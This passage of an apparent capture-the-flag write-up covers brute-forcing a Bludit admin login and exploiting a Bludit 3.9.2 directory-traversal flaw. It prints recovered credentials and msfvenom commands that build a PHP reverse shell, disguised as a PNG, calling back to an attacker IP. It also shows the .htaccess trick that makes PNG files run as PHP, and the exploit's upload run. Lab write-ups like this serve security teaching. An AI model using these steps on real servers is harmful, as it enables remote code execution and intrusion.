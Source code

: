 The script was able to find valid credentials for the `fergus` user:

~~~
kali@kali:/data/tmp$ python3 bf.py 
[*] Trying: the
[*] Trying: Load
[*] Trying: Plugins

[REDACTED]

[*] Trying: best
[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
~~~

## Directory Traversal exploit

Having valid credentials (`fergus:RolandDeschain`), I was able to login against the `/admin` URL and navigate through the backend. I found a form to post content, and upload an image.

Looking for exploits affecting this release confirmed that there is a possible directory traversal vulnerability:

~~~
kali@kali:/data/tmp$ searchsploit bludit 3.9.2
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Bludit 3.9.2 - Directory Traversal                                                 | multiple/webapps/48701.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

I downloaded the exploit and started to prepare the necessary files, as explained in the exploit itself. We need to generate 2 files, as follows:

~~~
kali@kali:/data/tmp/files$ msfvenom -p php/reverse_php LHOST=10.10.14.22 LPORT=4444 -f raw -b '"' > evil.png
kali@kali:/data/tmp/files$ echo -e "<?php $(cat evil.png)" > evil.png
kali@kali:/data/tmp/files$ echo "RewriteEngine off" > .htaccess
kali@kali:/data/tmp/files$ echo "AddType application/x-httpd-php .png" >> .htaccess
~~~

Once done, we need to change the IP and port in python file, and we can run the exploit:

~~~
kali@kali:/data/tmp/files$ python3 48701.py 
cookie: apnks075c2p3g17ir7otfnok26
csrf_token: 860c0faaf34d652892fb09e7561b568e7e38dd93
Uploading payload: evil.png
Uploading payload: .htaccess
~~~
